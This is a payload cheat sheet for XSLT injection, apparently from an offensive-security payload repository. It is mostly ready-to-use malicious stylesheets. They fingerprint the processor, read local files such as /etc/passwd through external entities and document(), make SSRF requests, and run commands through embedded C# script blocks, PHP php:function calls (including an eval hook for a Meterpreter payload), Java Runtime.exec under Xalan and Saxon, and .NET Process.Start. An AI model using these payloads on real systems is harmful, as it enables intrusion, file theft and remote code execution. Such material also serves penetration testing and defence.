 # XSLT Injection

> Processing an unvalidated XSL stylesheet can allow an attacker to change the structure and contents of the resultant XML, include arbitrary files from the file system, or execute arbitrary code

## Summary

- [Tools](#tools)
- [Exploit](#exploit)
  - [Determine the vendor and version](#determine-the-vendor-and-version)
  - [External Entity](#external-entity)
  - [Read files and SSRF using document](#read-files-and-ssrf-using-document)
  - [Remote Code Execution with Embedded Script Blocks](#remote-code-execution-with-embedded-script-blocks)
  - [Remote Code Execution with PHP wrapper](#remote-code-execution-with-php-wrapper)
  - [Remote Code Execution with Java](#remote-code-execution-with-java)
  - [Remote Code Execution with Native .NET](#remote-code-execution-with-native-net)

## Tools

## Exploit

### Determine the vendor and version

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
	<xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### External Entity

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>

</xsl:stylesheet>
```

### Read files and SSRF using document

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
	    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with Embedded Script Blocks

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
	<xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---	
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with PHP wrapper

Execute the function `readfile`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```

Execute the function `scandir`.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
        </xsl:template>
</xsl:stylesheet>
```

Execute a PHP meterpreter using PHP wrapper.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:variable name="eval">
                        eval(base64_decode('Base64-encoded Meterpreter code'))
                </xsl:variable>
                <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
        </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with Java

```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```

```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```

### Remote Code Execution with Native .NET

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
  </xsl:stylesheet>
```

## References

* [From XSLT code execution to Meterpreter shells - 02 July 2012 - @agarri](https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
* [XSLT Injection - Fortify](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection)
* [XSLT Injection Basics - Saxon](https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/)